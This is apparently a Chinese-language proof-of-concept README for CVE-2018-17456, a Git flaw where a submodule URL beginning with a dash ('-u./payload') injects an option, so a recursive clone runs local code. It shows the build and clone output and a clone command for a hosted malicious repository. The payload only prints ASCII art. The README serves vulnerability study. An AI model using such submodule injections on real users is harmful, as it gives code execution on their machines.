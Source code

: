 # CVE-2018-17456

### 漏洞简介
+ 漏洞名称： Git输入验证错误漏洞
+ CNNVD编号：CNNVD-201810-234
+ 危害等级：超危
+ CVE编号：CVE-2018-17456
+ 漏洞类型：输入验证错误
+ 发布时间：2018-10-08
+ 威胁类型：远程
+ 更新时间：2019-04-25
+ 厂商：debian
+ 漏洞来源：Atlassian,TerryZh...
+ 漏洞简介：Git是一套免费、开源的分布式版本控制系统。Git中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。以下版本受到影响：Git2.14.5之前版本，2.15.3之前的2.15.x版本，2.16.5之前的2.16.x版本，2.17.2之前的2.17.x版本，2.18.1之前的2.18.x版本，2.19.1之前的2.19.x版本。


### 漏洞复现
+ 由于Github安全机制的问题，不能上传恶意项目，所以你可以运行脚本 `build.sh` 在本地构造这个项目进行学习和测试。
+ 我使用的Git的版本为 `git-2.12.1`
+ 过程与效果如下：

```bash
[anonymking@localhost test]$ ./build.sh 
Initialized empty Git repository in /home/anonymking/Desktop/test/CVE-2018-17456-PoC/Submodule/.git/
[master (root-commit) 5b1e97c] submodule
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 hgt_blank
Initialized empty Git repository in /home/anonymking/Desktop/test/CVE-2018-17456-PoC/CVE-2018-17456-PoC/.git/
Cloning into '/home/anonymking/Desktop/test/CVE-2018-17456-PoC/CVE-2018-17456-PoC/exploit:exploit'...
done.
[master (root-commit) ed1914d] CVE-2018-17456
 3 files changed, 6 insertions(+)
 create mode 100644 .gitmodules
 create mode 160000 exploit:exploit
 create mode 100755 payload
git clone --recursive "/home/anonymking/Desktop/test/CVE-2018-17456-PoC/CVE-2018-17456-PoC" des_dir



[anonymking@localhost test]$ git clone --recursive "/home/anonymking/Desktop/test/CVE-2018-17456-PoC/CVE-2018-17456-PoC" test
Cloning into 'test'...
done.
Submodule 'exploit:exploit' (-u./payload) registered for path 'exploit:exploit'
Cloning into 'exploit'...


*********************************************
                   _ooOoo_
                  o8888888o
                  88" . "88
                  (| -_- |)
                  O\  =  /O
               ____/`---'\____
             .'  \\|     |//  `.
            /  \\|||  :  |||//  \
           /  _||||| -:- |||||-  \
           |   | \\\  -  /// |   |
           | \_|  ''\---/''  |   |
           \  .-\__  `-`  ___/-. /
         ___`. .'  /--.--\  `. . __
      ."" '&lt;  `.___\_&lt;|>_/___.'  >'"".
     | | :  `- \`.;`\ _ /`;.`/ - ` : | |
     \  \ `-.   \_ __\ /__ _/   .-` /  /
======`-.____`-.___\_____/___.-`____.-'======
                   `=---='
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
fatal: clone of '-u./payload' into submodule path '/home/anonymking/Desktop/test/test/exploit:exploit' failed
Failed to clone 'exploit:exploit' a second time, aborting
```
+ 我在payload中构建的恶意代码就是输出一个佛陀，因此得见我佛也就代表着测试成功了；这个地方其实会输出两次，因为clone子项目失败的时候会有一次重试。


### 参考资料
+ 项目 [poc-submodule](https://github.com/joernchen/poc-submodule)


---


### 意外发现
+ 我居然在Coding上面成功构建了这个项目 —— [CVE-2018-17456](https://dev.tencent.com/u/anonymking/p/CVE-2018-17456/git)
+ 使用方法：

```bash
git clone --recursive https://dev.tencent.com/u/anonymking/p/CVE-2018-17456/git test
```

+ 另外，推荐两个相似的漏洞放在一起学习： [CVE-2017-1000117](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-1000117)、[CVE-2018-11235](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11235)